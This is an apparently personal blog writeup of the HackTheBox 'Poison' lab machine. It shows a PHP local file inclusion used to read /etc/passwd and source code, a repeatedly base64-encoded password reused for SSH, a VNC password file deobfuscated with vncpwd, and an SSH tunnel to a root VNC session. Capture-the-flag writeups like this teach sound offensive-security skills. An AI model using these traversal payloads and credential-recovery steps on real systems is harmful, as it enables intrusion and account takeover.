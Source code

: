 ```yaml
---
title: "Hack the box - Poison"
date: 2018-08-10T11:28:47+02:00
draft: false
toc: true
---
```


This is my writeup of the [poison](https://www.hackthebox.com/machines/poison) machine from HackTheBox.eu.
The machine is currently 138 days old, it has 6955 user owns and 4330 system owns, and is rated 3.8 in difficulty.

![HTB status](htb-status.png)

## Scanning and Enumeration

I started out with a scan of the machine to find any open ports `nmap -Pn -p1-65535 -A -v -sS 10.10.10.84`. The resulting [scan](nmap_scan) showed the following open ports

- 22 OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
- 80 Apache/2.4.29 (FreeBSD) PHP/5.6.32
- 5802/tcp open http Bacula http config
- 5902/tcp open vnc VNC (protocol 3.8)
- 5903/tcp open vnc VNC (protocol 3.8)
- 6002/tcp open X11 (access denied)
- 6003/tcp open X11 (access denied)

I noticed a lot of VNC sessions, but decided to start out with the web server.

## Owning User

When I opened the site the following screen greeted me

![index](index.png)

Without testing the scripts the website suggested, I immediately tested for local file include (LFI) and remote file inclusion (RFI). This lead me somewhat off track as I only needed the scripts in order to own the user.

First, I manually tried to get LFI by including `../../../../../etc/passwd`. This succeeded (see [/etc/passwd/](passwd)), and I found the `charix` user at the very bottom (this is also the name of the machine creator).

```sh
$ curl http://10.10.10.84/browse.php?file=../../../../../etc/passwd
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
---- snip ----
charix:*:1001:1001:charix:/home/charix:/bin/csh

```

Trying different php LFI techniques (see [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)) I could leverage `php://filter` to get the source code for the vulnerable inclusion script

```sh
$ curl -s "http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=browse.php" | base64 -d
<?php
include($_GET['file']);
?>
```

Further LFI fuzzing using `dirb` and the `LFI-jhaddix` file from SecLists gave me a lot of files, from which I could not use anything `dirb http://10.10.10.84/browse.php?file= SecLists/Fuzzing/LFI-JHADDIX.txt  -f`. See [LFI-results](fuzz_lfi-jhaddix) for the files it got me.

Getting back on track using the scripts the website suggested my:
Using list-files got me

```php
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

Reading `pwdbackup.txt` got me

```base64
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Decoding it 13 times gives `Charix!2#4%6&8(0`, which enabled me to log in `ssh charix@10.10.10.84`.

## Owning Root

During the enumeration I saw a lot of VNC sessions. One of these were started by root

```sh
charix@Poison:/tmp % ps auxww  | grep vnc
root   529   0.0  0.9  23620  8872 v0- I    09:01   0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
charix 777   0.0  0.0    412   328  3  R+   09:06   0:00.00 grep vnc
```

This could be the entry point to owning root but I didn't know how.
What I could see was that there was a `.vnc` folder in the home folder of the `charix`. It contained a `passwd` file with some gibberish.

```sh
$ cat /home/charix/.vnc/passwd | xxd -p
a7cd4c5eab70e29b
```

After some searching around I found that it was the obfuscated password of the user.
As it was obfuscated there had to be someone who could deobfuscate it. A long story short, the password is DES encrypted by a static key.
But deobduscating the password of Charix made no sense as I already had access as that user.
I stopped with the vnc attack vector.

When SSH'ing in, the file `secret.zip` was located in the home directory. I copied the file to my local machine and unzipped it, which revealed the file `secret`.

```sh
$ scp ssh charix@10.10.10.84:secret.zip
$ unzip secret.zip #unzipped the file 'secret'
$ xxd -p secret
bda85b7cd5967a21
```

The contents of the file looked very similar to the `passwd` file for the vnc service for the Charix user.
I then tried to use the deobfuscater I found earlier, and sure enough it gave me a password

```sh
$ git clone https://github.com/jeroennijhof/vncpwd.git
$ cd vncpwd
$ gcc -o vncpwd vncpwd.c d3des.c
$ ./vncpwd ../secret
Password: VNCP@$$!
```

I then tried to log on to session 1 (the session number can be seen in the `ps` output above)

```sh
$ vncviewer 10.10.10.84:1
vncviewer: ConnectToTcpAddr: connect: Connection refused
Unable to connect to VNC server
```

Bummer. The session started by root was probably protected somehow.

I found an [article](http://www.penguintutor.com/linux/tightvnc) describing how to secure TightVNC on a raspberry pi, by only allowing connections from localhost. To get access he would use ssh port forwarding:

```
$ ssh charix@10.10.10.84 -L 5901:localhost:5901
```

This creates a tcp listener on my Kali box on port 5900. When a connection is established on that port it forwards the traffic through ssh and makes a connection to localhost (on the poison machine) on port 5901.

With the tunnel set up I tried to connect again

```
$ vncviewer localhost:1
```

Success! It prompted for a password, and handed me a vnc session:

![Getting root flag](vnc_root.png)

I couldn't figure out how to copy from the session, and I had to manually copy it.
